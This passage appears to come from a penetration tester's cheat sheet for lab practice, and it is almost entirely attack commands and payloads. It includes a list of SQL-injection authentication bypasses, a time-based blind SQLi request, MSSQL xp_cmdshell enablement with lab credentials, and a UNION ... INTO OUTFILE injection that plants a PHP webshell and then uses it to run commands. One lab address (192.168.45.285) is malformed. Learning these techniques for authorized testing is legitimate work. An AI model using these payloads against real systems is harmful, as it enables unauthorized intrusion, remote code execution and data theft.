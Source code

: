 ```bash
Enumerate file privileges (see here for discussion of file_priv)

SELECT user FROM mysql.user WHERE file_priv='Y';

```

### any other protocol Emuneration
- https://docs.gorigorisensei.com/ports-enum 

## Searching exploits
```bash
searchsploit *duplicator*
searchsploit -x *50420*  #Searchsploit command to examine a specific exploit
 searchsploit -m *50420* #SearchSploit command to copy the exploit script to the current directory
```

### SQL injection
```bash
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```
#### Blind SQL Injection - This can be identified by Time-based SQLI
```bash
#Application takes some time to reload, here it is 3 seconds
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

#### Manual Code Execution
```bash
kali> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
#Now we can run commands
EXECUTE xp_cmdshell 'whoami';

#Sometimes we may not have direct access to convert it to RCE from web, then follow below steps
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // #Writing into a new file
#Now we can exploit it
http://192.168.45.285/tmp/webshell.php?cmd=id #Command execution
```